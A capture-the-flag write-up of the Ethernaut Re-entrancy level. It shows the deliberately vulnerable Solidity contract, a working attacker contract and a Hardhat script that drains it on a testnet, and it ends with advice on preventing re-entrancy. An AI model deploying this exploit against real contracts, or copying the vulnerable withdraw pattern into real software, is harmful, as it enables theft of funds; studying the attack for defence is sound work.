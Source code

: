 ```yaml
---
title: Ethernaut #10 Re-entrancy
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Re-entrancy challenge writeup
---
```


## Re-entrancy

### Challenge

The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling
* Sometimes the best way to attack a contract is with another contract.
* See the Help page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

### Background

This is a classic re-entrancy attack as the title suggests. A re-entrancy attack is when the victim contact calls into an attacker controlled contract in some way, and the attacker controlled contract calls some functionality in the victim contract before the first function call is finished. This can have some devestating implecation if the contract assumes that the entire function call has finished. For example, if a withdraw function is called all checks passed and before the new amount is updated the function gives execution to the attacker controled contract, the attacker can re-enter the same function before the total was subrated and receive the funds again.  

### Attack

Create a contract that when receiving funds calls the `withdraw` function again until all funds are withdrawn. Then make sure to stop to avoid reverting. The contract should also have the functionality to call the `withdraw` function

* Create a contract that can:
  * Call the `withdraw` function
  * When receiving funds call `withdraw` again util the target is out of funds
* Transfer all funds to the attacker controlled contract using the `donate` function
* Call the `withdraw` functionality through the attacker controlled contract


#### ReentranceSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Reentrance.sol';

contract ReentranceSolve {

    Reentrance reentranceContract;
    uint256 amount;
    uint256 times;
    uint256 counter;

    constructor(address payable _reentranceAddress, uint256 _amount) public {
        reentranceContract = Reentrance(_reentranceAddress);
        amount = _amount;
        times = 0;
        counter = 0;
    }
    
    function withdraw (uint256 _times) public {
        times = _times;
        // _king.call.value(msg.value)("");
        // _king.call{value: msg.value}("");
        reentranceContract.withdraw(amount);
    }

    receive() external payable {
        counter++;
        if (counter < times)
            reentranceContract.withdraw(amount);
    }
}
```

#### reentrance-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    reentranceAddress = "0x143E03bB8B5e89ec5A7f38B2F52296378723e27C";
    contract = await ethers.getContractAt("Reentrance", reentranceAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    contractBalance = await ethers.provider.getBalance(contract.address)

    console.log("Initial Contract Balance: " + contractBalance)
    
    ReentranceSolve = await ethers.getContractFactory("ReentranceSolve");
    reentranceSolve = await ReentranceSolve.deploy(contract.address, contractBalance);
    await reentranceSolve.deployed();

    // donate funds for attacker contract
    tx = await contract.donate(reentranceSolve.address, {value: contractBalance})
    receipt = await tx.wait()

    contractBalance = await ethers.provider.getBalance(contract.address)
    reentranceSolveBalance = await ethers.provider.getBalance(reentranceSolve.address)
    reentranceSolveTokenBalance = await contract.balanceOf(reentranceSolve.address)
    console.log("Contract Balance      : " + contractBalance)
    console.log("Attacker Balance      : " + reentranceSolveBalance)
    console.log("Attacker Token Balance: " + reentranceSolveTokenBalance)

    // transfer token funds
    tx = await reentranceSolve.connect(account).withdraw(2)
    receipt = await tx.wait()

    contractBalance = await ethers.provider.getBalance(contract.address)
    reentranceSolveBalance = await ethers.provider.getBalance(reentranceSolve.address)
    reentranceSolveTokenBalance = await contract.balanceOf(reentranceSolve.address)
    console.log("Contract Balance      : " + contractBalance)
    console.log("Attacker Balance      : " + reentranceSolveBalance)
    console.log("Attacker Token Balance: " + reentranceSolveTokenBalance)
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/reentrance-solve.js --network rinkeby
Initial Contract Balance: 1000000000000000
Contract Balance      : 2000000000000000
Attacker Balance      : 0
Attacker Token Balance: 1000000000000000
Contract Balance      : 0
Attacker Balance      : 2000000000000000
Attacker Token Balance: 115792089237316195423570985008687907853269984665640564039457583007913129639936
```

#### Alternative solution

If our funds were much less that the contract funds we might run in an out of gas error because the times we reenter might a lot. This might require that we run this attack in multiple steps. An alternative would be to run it twice so that our balance wraps to an huge number and then run once more and extract the full contract balance. 

### Success Message

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

 
#### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
